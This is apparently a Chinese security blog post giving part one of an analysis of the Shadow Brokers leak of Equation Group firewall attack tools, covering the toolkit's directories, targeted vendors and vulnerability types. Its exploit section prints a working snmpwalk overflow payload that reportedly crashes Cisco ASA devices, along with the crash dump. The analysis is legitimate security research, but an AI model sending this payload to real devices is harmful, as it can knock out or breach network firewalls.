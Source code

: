 > 原文链接: https://www.anquanke.com//post/id/84419 


# 8月19日：Shadow-Brokers所泄露文件的介绍、技术分析（上）


                                阅读量   
                                **167698**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**[![](https://p2.ssl.qhimg.com/t017eddd82532cb29ef.png)](https://p2.ssl.qhimg.com/t017eddd82532cb29ef.png)**

**0x01 曝光的数据与方程式和NSA的关系**

从泄露数据包所解压出的内容看，是专门针对防火墙设备进行攻击和渗透行动时所使用的工具集。据数据曝光者Shadow Brokers所描述，这个数据包是来自于著名国家级APT攻击团队——方程式组织(Equation Group)。该组织具信受雇于美国国家安全局(NSA),对外发动过多次著名的国家级APT攻击，包括震网(stuxnet)、Regin、Flame等攻击。从文件中所包含有”JETPLOW“,”BANANALEE“等文件名和文件夹关键字信息, 也与之前斯诺登所曝光的NSA网络攻击内部资料的防火墙(FIREWALL)章节内容所相符:

下图为斯诺登报出的NSA网络攻击的一节内容:

[![](https://p1.ssl.qhimg.com/t010d3f98498e161f5f.png)](https://p1.ssl.qhimg.com/t010d3f98498e161f5f.png)

(JETPLOW是专门针对Cisco PIX和ASA系列防火墙固件进行持久化植入的工具，可以将持久化控制软件BANANAGLEE植入到设备中)

[![](https://p1.ssl.qhimg.com/t01b3cb65f190079e70.png)](https://p1.ssl.qhimg.com/t01b3cb65f190079e70.png)

(BANANAGLEE可以认为是一个持续控制后门(Persistent Backdoor)攻击框架, 通过植入和篡改Cisco防火墙OS文件, 实现对Cisco防火墙入侵后的持续控制)

    通过各安全研究人员对工具集当中攻击工具的成功验证, 基本上确定了这些数据包是从NSA有关联的方程式组织(Equation Group)泄露的可能性;

**0x02 工具包所包含内容的分析:**

文件夹下的目录信息

[![](https://p3.ssl.qhimg.com/t0122b07979b1b0b58a.png)](https://p3.ssl.qhimg.com/t0122b07979b1b0b58a.png)

**padding 文件**

大小19M, 使用binwalk对文件进行分析后发现有Cisco IOS特征,推测应该是Cisco IOS平台的OS文件,可能是在攻击行为中留下了的;



```
root@kali:~/Documents/test/Firewall# binwalk padding
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
10909743      0xA6782F        Cisco IOS experimental microcode for ""
```



**SCRIPTS/ 目录 **

该应该是攻击行动执行组(OPS)在攻击过程中的笔记和一些攻击工具的使用方法笔记; 文件的最后修改时间为2013年6月份;

[![](https://p1.ssl.qhimg.com/t0163cc5486ec8938dd.png)](https://p1.ssl.qhimg.com/t0163cc5486ec8938dd.png)

(文件名称和内容描述)

其中:

Bookishmute.txt 文件为一次针对TOPSEC防火墙的攻击记录笔记。记录中出现的IP地址159.226.209.125为中国科学网的IP，怀疑该OPS小组有对中国相关组织进行过攻击;

**TOOLS/ 目录**

主要用来存放一些进行渗透行动(OPS)时所经常用到的工具;

[![](https://p2.ssl.qhimg.com/t01280af410dfb1509b.png)](https://p2.ssl.qhimg.com/t01280af410dfb1509b.png)

**OPS/  目录**

进行攻击行动(OPS)时的自动化工具集合

[![](https://p3.ssl.qhimg.com/t0186abbcddfb0a7281.png)](https://p3.ssl.qhimg.com/t0186abbcddfb0a7281.png)

**BUZZDIRECTION/ 目录**

针对Fortinet的持久化植入和控制工具集合

[![](https://p3.ssl.qhimg.com/t01045042541829de51.png)](https://p3.ssl.qhimg.com/t01045042541829de51.png)

**BANANAGLEE 目录:**

是针对ASA和PIX设备的可持续控制功能, 目的是在获取防火墙权限后,能够实现对设备的持久控制, 并根据不通模块完成对应的任务; 如任意流量调度，对感兴趣的流量进行监听等。

[![](https://p0.ssl.qhimg.com/t01130db272fbfb3784.png)](https://p0.ssl.qhimg.com/t01130db272fbfb3784.png)

**EXPLOIT/ 目录**

利用防火墙设备的漏洞,实现对不同防火墙(ASA,PIX,NETSCREE,TOPSEC,Fortinet)的”破门”,以期望达到获取防火墙控制权限的目的;

从整个文件中的目录结构和内容信息来分，可以大体上分为三类:

一类为脚本,记录和自动化工具文件, 主要分布在OPS,SCRIPTS,TOOLS目录下; 

第二类为利用漏洞进行破门的工具, 主要是EXPLOIT目录,针对不同的目标,攻击程序在不同的子文件夹中;

第三类是为了能对目标防火墙设备持续控制和进行有目的的信息采集,而准备的工程化工具,主要集中在BANANAGLEE,BARGLEE,BLASTING,BUZZDIRECTION目录下;

[![](https://p4.ssl.qhimg.com/t016cbc13a5c4a638f5.png)](https://p4.ssl.qhimg.com/t016cbc13a5c4a638f5.png)

**0x03 漏洞利用分析**

从攻击的代码看, 针对TOPSEC所使用漏洞类型,为防火墙通过web所提供的管理界面中存在的漏洞,一个是HTTP Cookie command injection漏洞, 一个是HTTP POST 命令注入漏洞; Fortigate防火墙则是由于HTTP cookie溢出而存在漏洞。

目前完成验证的则是EXTRA BACON工具集中, 所使用的影响ASA 8.0-8.4版本的[SNMP溢出漏洞](http://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20160817-asa-snmp);

当一台ASA设备配置了snmp口令比较弱或被泄露, 那么攻击者可以从ASA允许的snmp-server上通过精心构造的snmp溢出数据包, 实现对ASA设备telnet和ssh登陆密码验证的绕过;

攻击视频为: [http://v.youku.com/v_show/id_XMTY4NzgxNTM0MA==.html](http://v.youku.com/v_show/id_XMTY4NzgxNTM0MA==.html)



通过分析攻击工具所构造的的数据信息发现,能够实现针对ASA设备溢出攻击的有效SNMP串, 可以造成ASA设备的crash。

能造成ASA设备重启的SNMP代码如下:

```
snmpwalk -v 2c -t 1 -r 0 -c $community $target_ip 1.3.6.1.4.1.9.9.491.1.3.3.1.1.5.9.95.184.57.64.28.173.53.165.165.165.165.131.236.4.137.4.36.137.229.131.197.88.49.192.49.219.179.16.49.246.191.174.170.170.170.129.247.165.165.165.165.96.139.132.36.216.1.0.0.4.51.255.208.97.195.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.144.253.13.54.9.139.124.36.20.139.7.255.224.144
```



**造成Crash的ASA信息如下:**



```
Cisco Adaptive Security Appliance Software Version 8.2(5)
Compiled on Fri 20-May-11 16:00 by builders
Hardware:   ASA5505
Crashinfo collected on 02:45:02.149 UTC Tue Aug 16 2016
Traceback:
0: 0x805e2d3
1: 0x805ede7
2: 0x8a63c84
3: 0xdd6aa6d5
4: 0xdd57d1e0
5: 0xc9a647f8
6: 0xc9bbb648
Stack dump: base:0x0xc9a646b4 size:351267, active:351267
 entries above '==': return PC preceded by input parameters
 entries below '==': local variables followed by saved regs
             '==Fn': stack frame n, contains next stack frame
                '*': stack pointer at crash
 For example:
    0xeeeeef00: 0x005d0707     : arg3
    0xeeeeeefc: 0x00000159     : arg2
    0xeeeeeef8: 0x005d0722     : arg1
    0xeeeeeef4: 0x005d1754     : return PC
    0xeeeeeef0: 0xeeeeef20 ==F2: stack frame F2
    0xeeeeeeec: 0x00def9e0     : local variable
    0xeeeeeee8: 0x0187df9e     : local variable or saved reg
    0xeeeeeee4: 0x01191548     : local variable or saved reg ciscoasa#
Thread Name: snmp
Page fault: Address not mapped
    vector 0x0000000e
       edi 0x0f0f0f0b
       esi 0x00000000
       ebp 0xc9a647b4
       esp 0xc9a64738
       ebx 0x00000010
       edx 0xc9a6472c
       ecx 0xc911d4e8
       eax 0x023d0d4c
error code 0x00000004
       eip 0xc9bbae4a
        cs 0x00000073
    eflags 0x00013203
       CR2 0x023d0d68
```

**<br>**

**0x04 持续化后门程序分析**

待续

**<br>**

**0x05 总结**



通过对目前所掌握的Shadow-brokers所泄露出文件的分析,可以得到如下结论:

1.是专门执行对防火墙(Firewall)设备进行渗透攻击,并高度集成的攻击工具集;

2.该工具集覆盖了国内外使用比较广泛的防火墙产品;

3.破门攻击(利用漏洞获取防火墙权限)时所使用的设备软件漏洞,需要对设备漏洞进行主动的挖掘才能获取;

4.准确可靠的漏洞利用程序(EXPLOIT)说明安全技术达到了极高的水平,有专门人员从事对网络设备安全的研究;

5.获取目前权限后的持续控制和隐秘, 攻击方基本上已经形成了框架和比较统一的思路;
